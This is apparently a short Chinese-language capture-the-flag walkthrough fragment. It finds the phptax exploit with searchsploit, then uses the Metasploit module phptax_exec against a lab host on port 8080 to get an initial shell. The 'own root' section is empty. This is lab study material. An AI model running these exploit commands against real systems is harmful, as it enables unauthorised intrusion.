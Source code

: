 端口 8080

```
$searchsploit phptax
```

![](img/3dedfe983005fce7e62c29cdd1a2a3c9.png)

# 拥有 WWW

```
$msfconsole
msf5 > search phptax
msf5 > use exploit/multi/http/phptax_exec  
msf5 exploit(**multi/http/phptax_exec**) > set RHOSTS 192.168.0.130 
msf5 exploit(**multi/http/phptax_exec**) > set RPORT 8080 
msf5 exploit(**multi/http/phptax_exec**) > exploit
```

![](img/e430969ed5e6aea9aa80c1345a9e1db5.png)

msfconsole

![](img/ad80407b93365847ddbf91fe12839c60.png)

初始外壳

# 自己的根
